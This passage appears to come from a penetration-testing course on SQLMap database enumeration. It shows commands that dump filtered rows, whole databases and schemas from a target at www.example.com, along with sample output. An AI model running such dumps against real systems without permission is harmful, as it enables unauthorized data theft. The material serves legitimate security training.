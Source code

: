 * * *

## Conditional Enumeration

If there is a requirement to retrieve certain rows based on a known `WHERE` condition (e.g. `name LIKE 'f%'`), we can use the option `--where`, as follows:

```shell
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

...SNIP...
Database: testdb

Table: users
[1 entry]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
+----+--------+---------+

```

* * *

## Full DB Enumeration

Instead of retrieving content per single-table basis, we can retrieve all tables inside the database of interest by skipping the usage of option `-T` altogether (e.g. `--dump -D testdb`). By simply using the switch `--dump` without specifying a table with `-T`, all of the current database content will be retrieved. As for the `--dump-all` switch, all the content from all the databases will be retrieved.

In such cases, a user is also advised to include the switch `--exclude-sysdbs` (e.g. `--dump-all --exclude-sysdbs`), which will instruct SQLMap to skip the retrieval of content from system databases, as it is usually of little interest for pentesters.


# Advanced Database Enumeration

* * *

Now that we have covered the basics of database enumeration with SQLMap, we will cover more advanced techniques to enumerate data of interest further in this section.

* * *

## DB Schema Enumeration

If we wanted to retrieve the structure of all of the tables so that we can have a complete overview of the database architecture, we could use the switch `--schema`:

```shell
sqlmap -u "http://www.example.com/?id=1" --schema

...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+
```
